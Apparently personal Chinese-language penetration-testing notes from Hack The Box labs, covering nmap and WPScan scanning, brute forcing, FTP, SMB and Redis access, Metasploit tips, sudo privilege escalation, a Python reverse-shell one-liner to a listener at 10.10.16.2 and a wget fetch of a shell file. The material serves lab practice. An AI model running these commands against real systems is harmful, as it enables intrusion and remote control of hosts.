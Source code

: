 ## 信息收集

### nmap
nmap 参数详解 https://www.freebuf.com/sectool/264941.html

（以下记录一些HTB中用过的方便再次查找）

标准服务检测：nmap -sV ip //-sV 尝试确定端口服务版本

扫描所有65535端口：nmap -p- ip

sudo nmap -T4 -A -p port ip  //T4 提高扫描速率; A 探测系统类型、服务版本、脚本扫描和跟踪路由

### WPScan
常用命令：

`wpscan --url https://brainfuck.htb --disable-tls-checks --api-token $WPSCAN_API`  //这里使用disable-tls-checks绕过证书检查，不然脚本不会运行。

`wpscan --url https://brainfuck.htb/ --enumerate u` //猜解用户

`wpscan --url https://www.xxxxx.wiki/ -e u --wordlist /root/password.txt` // 暴力破解

`wpscan -u https://www.xxxxx.wiki/ -enumerate p` //扫描插件

### 目录发现

#### dirsearch

1. 遇到 `403 /cgi-bin/`的时候，可以dirbuster、gobuster或者其他目录fuzz工具[进一步探索cgi-bin目录下的后缀名为`cgi​, sh​, ​pl​, ​py...`的文件。](https://twitter.com/_johnhammond/status/1348253792530280448)

#### gobuster 

1. [常用命令1](https://vk9-sec.com/gobuster-how-to/)
2. [常用命令2](https://blog.intigriti.com/2021/07/05/hacker-tools-gobuster/)
3. [原项目](https://github.com/OJ/gobuster)

## 端口和用到的端口命令

### port 21 ftp
1. 连接方式：`sudo ftp [ip或者host]`
2. 匿名者登录模式：
   ```
	sudo ftp [ip]
	Connected to [ip].
	220 (vsFTPd 2.3.4)
	Name ([ip]:[id]): anonymous  //这里输入anonymous使用匿名者模式（需要服务器开启anonymous_enable=YES）
	331 Please specify the password.
	Password:					//这里直接回车
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
   ```
3. ftp 内常用命令 https://www.cnblogs.com/answerThe/p/11463117.html
  * 查看文件-get {filename}
  * bye  退出ftp

4. 存在后门的特征
   ```
	21/tcp  open  ftp         vsftpd 2.3.4
   ```

### port 22 SSH

[链接](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)

主要是暴力破解，可挖性比较低

### port 23 Telnet

1. port 23 telnet: telnet {IP} (该说不说这种默认口令port23真的已经很少很少了吧)

### port 25,465,587 SMTP

[Simple Mail Transfer Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#sniffing)

### port 110 POP

[Post Office Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop#hacktricks-automatic-commands)

### port 143 imap

[imap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

### port 139,445 SMB
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
```
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**
```
1. port 139
2. port 445 SMB :
	* smbclient : 用于连接和传输文件的脚本（linux based）
	* 不知道用户账密时：使用访客或匿名模式查看分享文件夹，`smbclient -L {target_IP}`
	* 探知未配置访问控制的分享文件`smbclient \\\\{target_IP}\\{foldername}`

### port 6379
1. port 6379 Redis:
	* redis 未授权访问 https://blog.csdn.net/qq_41210745/article/details/103309137 
	* `info 获取redis信息`， `select {数字} 切换到指定数据库`，`keys * 列出所有key名称`，`get {key} 获取某个key的内容`

## 漏洞利用

### Metasploit

**注意，在打靶机连了VPN的情况下，（主要在反弹shell场景下）需要将本地监听LHOST改为VPN提供的IP**

在exploit跑不通时，排查如下几个方面：
1. 将本地监听LHOST改为VPN提供的IP
2. 注意指定rhost攻击时，可能也需要指定rport
3. `show payloads`拿到实际payload列表自行尝试单个payload
4. 卸载重装最新版本 `sudo apt-get remove --auto-remove metasploit-framework`


## 提权

### 低权限shell提权案例


```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
10.10.10.56> sudo perl -e 'exec "/bin/bash"'
10.10.10.56> whoami
root
```

```
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ 
```

### 反弹shell

```
本地：
sudo nc -nvlp 1111
受害服务器：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 远程文件包含获取shell

```
本地：
sudo python3 -m http.server 80 //shell文件放在开启该命令的文件夹下，如根目录
受害服务器：
wget 10.10.16.2/new.py
```


